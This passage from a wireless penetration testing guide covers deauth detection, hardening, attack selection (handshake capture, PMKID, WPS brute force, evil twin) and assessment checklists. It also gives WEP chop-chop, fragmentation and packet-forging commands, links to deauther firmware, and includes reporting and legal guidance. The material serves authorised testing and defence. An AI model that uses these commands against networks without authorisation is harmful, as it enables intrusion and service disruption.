  
</div>

In Wireshark, the same filter:

```
wlan.fc.type_subtype == 0x0c
```

A quick tcpdump capture for later analysis:

```bash
sudo tcpdump -i wlan0mon -w deauth.pcap type mgt subtype deauth
```

Watch which stations are flapping on and off:

```bash
watch -n 2 "iw dev wlan0mon station dump"
```

The signatures of an attack in progress:

1. Many clients disconnecting and reconnecting in a tight window
2. A burst of deauth frames, often to the broadcast address
3. Repeated EAPOL handshakes in a short time (someone is capturing)
4. Dozens of new SSIDs appearing at once (beacon flood), or two APs with the same ESSID but different BSSIDs (evil twin)

Mapping a signature to a response is the triage a SOC should be able to run. This is the flow to hand them, and the flow to test against during the engagement:



A wireless IDS (**Kismet**, **nzyme**) alerts on all of this. The test checks the client has one, its alerts reach a human, and someone triages them. An alert nobody reads is the same as no alert, and proving that gap is often the most useful finding.

## Hardening and defence
<a id="hardening-and-defence"></a>

What I recommend in the report:

- **Enable 802.11w (Protected Management Frames / PMF).** This signs management frames, so forged deauths are ignored. Mandatory on WPA3, optional on WPA2. It kills the deauth attack outright.
- **Use WPA3, or WPA2 with a long random passphrase.** Length beats complexity; a 20+ character passphrase is not getting cracked from a wordlist.
- **Turn WPS off.** A strong password is pointless if the PIN is brute forceable.
- **Deploy a wireless IDS** (Kismet, nzyme, or the vendor's own) and make sure alerts reach a human.
- **Segment guest and corporate WiFi,** and put corporate on 802.1X (per-user certs or credentials) rather than a shared PSK.
- **Move sensitive devices to 5GHz / WPA3,** out of reach of cheap 2.4GHz-only attack hardware.
- Keep AP firmware current, and watch controller logs for repeated disassociations and unknown MACs.

## Troubleshooting
<a id="troubleshooting"></a>

- **WiFi gone after testing / card stuck in monitor mode.** Bring networking back:

  ```bash
  sudo airmon-ng stop wlan0mon
  sudo systemctl restart NetworkManager
  ```

  `systemctl restart NetworkManager` restarts the service that manages your connections on systemd systems; `sudo service NetworkManager restart` is the older equivalent. Either one hands control of the card back to the desktop.

- **"Fixed channel: -1" or injection failing.** A background process grabbed the card. Run `sudo airmon-ng check kill` again.
- **Adapter not showing in `iwconfig`.** Check `lsusb` and `dmesg | tail` for the driver loading. Dual-band Realtek cards often need their out-of-tree driver installed.
- **Spoof your MAC** when a test calls for it:

  ```bash
  sudo ifconfig wlan0 down
  sudo macchanger -r wlan0        # random, or -m AA:BB:CC:DD:EE:FF for a specific one
  sudo ifconfig wlan0 up
  ```

## Choosing the right attack
<a id="choosing-the-right-attack"></a>

Where to aim, quickly:

- **WPA2-PSK network, clients connected** then capture a handshake (deauth a client, grab it, crack offline). The most common path.
- **WPA2-PSK, no clients** then go for the PMKID with hcxdumptool, no client needed.
- **WPS enabled and unlocked** then reaver or bully, often faster than cracking the passphrase.
- **Testing human and device trust** then the evil twin, to show what staff will connect to.
- **WPA3 or PMF enabled** then deauth and handshake capture are dead; pivot to the password strength story, WPS, and client-side trust.

## Where IoT fits in
<a id="where-iot-fits-in"></a>

You do not always need a laptop. A thumb-sized NodeMCU on a power bank can run deauth and beacon attacks on 2.4GHz by itself. I built one to understand the threat from the inside; it pairs with the detection half of this guide.

Full write-up and firmware: [ESP8266 Deauther](https://gitlab.com/deathesther/esp8266-deauther).

## Wireless pentest checklist
<a id="checklist"></a>

A field checklist for an authorised wireless assessment. Work top to bottom; everything below is in-scope-only and should be logged with timestamps so the blue team can correlate.

> **Detailed, printable checklists** live in the [`checklists/`](checklists/) directory, one per assessment area, each item with what to check, why it matters, how to validate, the expected secure result, and the evidence to collect:
> [corporate master](checklists/corporate-wifi-assessment.md) · [reconnaissance](checklists/wireless-reconnaissance.md) · [WPA2-Personal](checklists/wpa2-personal-assessment.md) · [WPA2-Enterprise](checklists/wpa2-enterprise-assessment.md) · [5 GHz](checklists/five-ghz-assessment.md) · [rogue AP](checklists/rogue-ap-assessment.md) · [hardening](checklists/wireless-hardening.md) · [report template](checklists/final-report-template.md).

### Scope and recon
- [ ] Inventory APs, clients, IoT, printers, switches. Record MAC, vendor OUI, hostname, and role.
- [ ] Discover connected devices and note association timestamps.
- [ ] Identify SSIDs (visible and hidden) and record each one's purpose (corporate, guest, IoT, captive portal).
- [ ] Confirm whether the same AP serves 2.4GHz and 5GHz; document band assignment and band-steering.
- [ ] Site survey: AP locations, antenna types, coverage overlap, dead zones, and signal bleed beyond the building.
- [ ] Look for external USB/PCIe adapters that support monitor mode, and any unfamiliar wireless hardware on endpoints.
- [ ] Verify encryption: WPA3 preferred; for WPA2 ensure AES/CCMP, TKIP disabled, 802.11w (PMF) active, transition modes sane.

### Authentication and configuration
- [ ] Router admin restricted to authorised admins; management over HTTPS only, HTTP disabled.
- [ ] No default passwords; strong complexity enforced; firmware current with vendor hardening applied.
- [ ] WPS disabled organisation-wide.
- [ ] Guest / employee / captive-portal networks isolated on separate VLANs, no crossover.
- [ ] Enterprise 802.1X (PEAP, EAP-TLS, TTLS, FAST) used for corporate where applicable.
- [ ] RADIUS reviewed: server-cert validity, CA chain, cert pinning. PSK vs 802.1X usage justified and correct EAP types enforced.
- [ ] Client supplicant behaviour checked: do clients accept insecure EAP types or skip certificate validation?
- [ ] Rogue connectors hunted (personal APs, phone hotspots, tethering bridging to corporate VLANs); findings logged.
- [ ] Management and production planes separated; SNMP/SSH/Telnet hardened (SNMPv3 only or removed).
- [ ] PMF / 802.11w enforced where supported; clients that cannot do it documented.
- [ ] WEP frames tested for and documented (WEP is deprecated, flag for replacement).

**Recommended key rotation:**

| Key type | NIST basis | Rotation |
| --- | --- | --- |
| PTK / GTK (session keys) | Ephemeral, automatic | Per client session / GTK lifetime |
| Master symmetric key / PSK | SP 800-57 cryptoperiod | <= 1 year; immediately if compromise suspected |
| RADIUS server keys / certs | Protect master key, rotate per PKI | ~1 year |
| Client certificates (EAP-TLS) | Per org policy | 1-3 years |

### Authorised WLAN attack and detection tests
- [ ] **Deauth** test, then confirm the WLC/controller, wireless IDS/IPS, and SIEM recorded it (collect pcaps + logs, correlate timestamps).
- [ ] **MITM** detection and evidence capture.
- [ ] **Stress / DoS** (radio or traffic based) in a maintenance window only; document impact and recovery.
- [ ] **MAC flooding** in a controlled environment to gauge AP/switch stability.
- [ ] **Fake-auth / association** attempts, verify they are logged and alerted.
- [ ] Scan for **rogue APs / misconfigured bridges**; document detection and response (avoid active rogue injection unless in scope).
- [ ] Verify logging retention and SIEM correlation for wireless anomalies (auth failures, BSSID floods, odd association patterns).
- [ ] Check backend weaknesses: DNS spoofing, unauthorised DHCP, weak DHCP config.
- [ ] **MAC-spoof detection** test (change host MAC to a known one, verify alerts).
- [ ] Capture **EAPOL / 4-way handshakes** for in-scope nets; offline strength analysis only if permitted.
- [ ] Identify legacy/weak auth (e.g. LEAP) from pcap; record the EAP method in use.
- [ ] Physical security: closets, patch panels, reachable external antennas.
- [ ] **PMKID** extraction test as an alternative to full handshake capture.
- [ ] **Spectrum scan** for non-WiFi interference and hidden jammers.

### Legacy WEP injection tests (authorised, lab or in-scope only)

These derive keystream (PRGA) material from captured frames and prove whether injection is possible. WEP only.

```bash
# Chop-chop: recover a keystream from a single captured packet
aireplay-ng -4 -b <AP-MAC> -h <source-MAC> <interface>

# Fragmentation: build a PRGA/XOR keystream for injection
aireplay-ng -5 -b <AP-MAC> -h <source-MAC> <interface>

# Forge an encrypted frame from the recovered PRGA, then inject
packetforge-ng -0 -a <AP-MAC> -h <your-MAC> -k <dest-IP> -l <source-IP> -y <xor-file> -w <out-file>
#   -0 ARP request   -a AP MAC   -h your MAC   -k dest IP ("who has")
#   -l source IP ("tell")   -y PRGA file   -w output file
```

Document capture evidence, whether monitoring alerted, and any successful injection. Mitigations to confirm alongside: network segmentation + NAC to limit client-to-client traffic, wireless IDS/IPS signatures for rogue APs and ARP/DHCP anomalies, and switch-side DHCP snooping / Dynamic ARP Inspection / IP Source Guard.

## Common ports reference
<a id="ports"></a>

A quick service-by-port lookup for the wired side you reach once you are on the network (pivoting, and triaging what a captured client talks to).

| Port | Service | Notes |
| --- | --- | --- |
| 20 / 21 | FTP | Data / control (cleartext) |
| 22 | SSH / SCP | Secure shell and copy |
| 23 | Telnet | Cleartext remote login (flag it) |
| 25 | SMTP | Mail transfer |
| 53 | DNS | Name resolution |
| 69 | TFTP | Trivial FTP (often config files) |
| 80 | HTTP | Cleartext web |
| 88 | Kerberos | Network authentication |
| 110 | POP3 | Mail retrieval |
| 135 | MS EPMAP | DCE/RPC endpoint mapper |
| 137 / 139 | NetBIOS | Name / session service |
| 143 | IMAP4 | Mail access |
| 443 | HTTPS | TLS web |
| 445 | SMB | Windows file sharing |
| 464 | Kerberos | Password change/set |
| 636 | LDAPS | LDAP over TLS |
| 989 / 990 | FTPS | FTP over TLS (data / control) |
| 993 | IMAPS | IMAP over TLS |
| 995 | POP3S | POP3 over TLS |
| 1194 | OpenVPN | VPN |
| 1433 | MSSQL | Microsoft SQL Server |
| 1521 | Oracle | Oracle DB listener |
| 2082 / 2083 | cPanel | Admin (plain / SSL) |
| 2083 | radsec | Secure RADIUS |
| 3306 | MySQL | MySQL/MariaDB |
| 3389 | RDP | Remote Desktop |
| 5432 | PostgreSQL | PostgreSQL DB |
| 5900 | VNC | Remote framebuffer |
| 8080 | HTTP-alt | Proxies / web admin |
| 9100 | PDL / JetDirect | Network printing |
| 10000 | Webmin | Unix/Linux web admin |

Ports in the 12345 / 27374 / 31337 range are classic trojan/backdoor defaults (NetBus, Sub7, Back Orifice); seeing them on a client is a finding, not a normal service.

## Professional reporting
<a id="reporting"></a>

The report is the deliverable, not the crack. A good one does three things: tells a manager the posture in plain language, gives an engineer a specific testable fix per issue, and keeps evidence redacted so it is safe to share.

**Use the template.** A full report template is at [`checklists/final-report-template.md`](checklists/final-report-template.md): copy it per engagement. It covers the executive summary, scope and methodology, severity scale, per-finding block, retesting, and appendices, with a worked sample.

**The structure in brief:**

1. **Executive summary.** One to three paragraphs for a non-technical reader: what was assessed, over what window, the overall posture, and a count of findings by severity. No jargon.
2. **Scope and methodology.** The signed authorisation, what was in and out of scope, the test window, constraints (adapter limits, DFS gaps), and the approach. State plainly that impersonation testing used lab-only labelled SSIDs and synthetic identities.
3. **Findings.** One block each: ID, title, severity, affected asset, description, root cause, redacted evidence, expected vs actual result, business impact, and a specific remediation. Tie every finding to a fix.
4. **Retesting.** A finding is only closed when a retest confirms the secure result. Record anything that could not be retested, with the reason, so residual risk is explicit.

**Severity, consistently applied:**

| Severity | Rough meaning for a wireless finding |
| --- | --- |
| Critical | Readily exploitable, direct path to sensitive access (for example, Enterprise creds captured and cracked, no cert validation) |
| High | Likely exploitable with some effort or a condition (validation off but crack unfinished in the window; WPS enabled on a weak PSK) |
| Medium | Moderate impact or a less likely combination (usernames leak but validation enforced; TKIP still offered) |
| Low | Minor, limited impact (informational hygiene gaps, cosmetic misconfig) |
| Informational | Not a weakness; worth noting, including good posture worth documenting (strict WPA3-only with PMF and no WPS) |

**Write-up principles that keep a report credible:**

- **Report what you actually did.** If an adapter could not reach a DFS channel or a 6 GHz network, say so as a coverage limitation. Never imply testing you did not perform.
- **Redact evidence.** Mask passwords, trim captures to the proof you need, and store the originals encrypted until the report is accepted, then destroy them and say so.
- **Document good posture too.** "Clients correctly refuse the rogue RADIUS cert" is a real, valuable result. A report that is all red loses trust; an honest one that confirms what works is more useful.
- **Make every remediation testable.** "Enforce RADIUS cert validation via GPO/MDM against CN radius.corp.local" beats "improve security". The retest depends on it.

The Enterprise section has a ready-to-use per-finding [reporting block](#wpa2-enterprise) tuned for 802.1X results, and the [`checklists/`](checklists/) directory maps each assessment area to the evidence you should have collected to write these findings.

## References and further learning
<a id="references"></a>

Guided labs are the safest place to practise: the target is in scope by design. These line up with the sections above. Understand the method, do not copy room answers.

**Hands-on labs (TryHackMe):**

- [WiFi Hacking 101](https://tryhackme.com/room/wifihacking101) a gentle first pass at monitor mode, capture, and cracking. Pairs with [monitor mode](#monitor-mode) and [capture the handshake](#capture-the-handshake).
- [WiFi Fundamentals and Recon](https://tryhackme.com/room/wififundamentalsandrecon) the 802.11 basics and reconnaissance. Pairs with [Wi-Fi security protocols](#wifi-security-protocols) and [recon](#recon).
- [Attacking Open and WPA2-PSK Networks](https://tryhackme.com/why-subscribe?roomCode=attackingopenandwpa2psknetworks) the WPA2-Personal path end to end. Pairs with [capture the handshake](#capture-the-handshake) and [crack it](#crack-it).
- [Attacking Enterprise WiFi](https://tryhackme.com/why-subscribe?roomCode=attackingenterprisewifi) 802.1X and the RADIUS-certificate trust problem. Pairs with [WPA2-Enterprise / 802.1X testing](#wpa2-enterprise).
- [Attacking Legacy WiFi](https://tryhackme.com/room/attackinglegacywifi) WEP and the old injection attacks. Pairs with [fake authentication and ARP replay](#fake-auth).

**Official documentation (always the source of truth for syntax):**

- [Aircrack-ng](https://www.aircrack-ng.org/) the suite's own docs for airodump-ng, aireplay-ng, and the rest.
- [Kismet](https://www.kismetwireless.net/) the wireless IDS and detector used in the [detection](#how-the-blue-team-detects-it) section.
- [Wireshark docs](https://www.wireshark.org/docs/) display filters and capture analysis.
- [FreeRADIUS](https://www.freeradius.org/documentation/) the RADIUS server behind Enterprise WiFi, for standing up a lab.
- [Linux kernel networking](https://docs.kernel.org/networking/) the mac80211 stack and driver behaviour.
- [NIST](https://www.nist.gov/) standards and guidance for the hardening and key-rotation recommendations.

## Legal and ethics
<a id="legal-and-ethics"></a>

Only test networks you own or have **explicit written permission** to test. Everything in this repo is for authorised assessments and for learning in a lab you control. Unauthorised access, capture, or disruption is a crime. A signed scope document is the line between a penetration test and an offence.

**India.** Jamming or blocking radio signals is illegal without a licence under the Indian Wireless Telegraphy Act, 1933 and the Indian Telegraph Act, 1885; operating signal jammers is prohibited for private individuals. Unauthorised access to a computer resource, and capturing data from one, fall under the Information Technology Act, 2000, notably Section 43 (penalty for unauthorised access and damage) and Section 66 (computer-related offences, which can carry imprisonment). Deauthing or cracking a WiFi network you do not own can trigger both.

**International.** There is no single global cyber law; each country enforces its own. Most criminalise unauthorised access (for example the Computer Fraud and Abuse Act in the US, the Computer Misuse Act in the UK). The main cross-border instrument is the **Budapest Convention on Cybercrime**, which many countries have signed to cooperate on these offences. (The International Court of Justice settles disputes between states, not individual hacking cases, so it is not the venue for this.) Wherever you are, the rule is the same: get permission in writing, stay in scope, and do not touch anyone else's network.

---

*Written as educational and defensive security material. Use it to understand wireless attacks and to defend against them.*
